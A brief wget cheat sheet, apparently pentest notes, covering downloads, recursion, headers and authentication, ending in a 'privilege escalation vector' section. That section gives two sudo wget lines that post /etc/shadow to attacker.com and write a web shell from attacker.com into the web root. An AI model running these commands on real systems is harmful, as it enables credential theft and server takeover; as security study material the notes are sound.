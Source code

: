 # wget file downloads because getting files from remote.

## basic usage
```bash
wget https://example.com/file.txt        # download single file
wget -O newname.txt https://site.com/file.txt    # save with different name
wget -c https://site.com/largefile.zip   # continue interrupted download
```

## recursive downloads
```bash
wget -r https://site.com/                # recursive download
wget -r -l 2 https://site.com/           # limit recursion depth to 2
wget -r -A "*.pdf" https://site.com/     # only download PDFs
```

## useful options
```bash
wget --spider https://site.com/file.txt  # check if file exists (no download)
wget -q https://site.com/file.txt        # quiet mode
wget --user-agent="Custom Agent" url     # custom user agent
wget --header="Cookie: session=abc" url  # custom headers
```

## authentication
```bash
wget --user=username --password=pass url # HTTP basic auth
wget --certificate=cert.pem url          # client certificate
```

## privilege escalation vector
if `wget` in `sudo -l`:
```bash
# can transfer files as root
sudo wget --post-file=/etc/shadow http://attacker.com/upload
sudo wget http://attacker.com/shell.php -O /var/www/html/shell.php
```

## notes
[!] recursive downloads can grab entire websites - use carefully
[!] `--spider` tests availability without downloading
[!] sudo wget can read/write files as root - major privesc vector
[!] some files may not be readable without proper permissions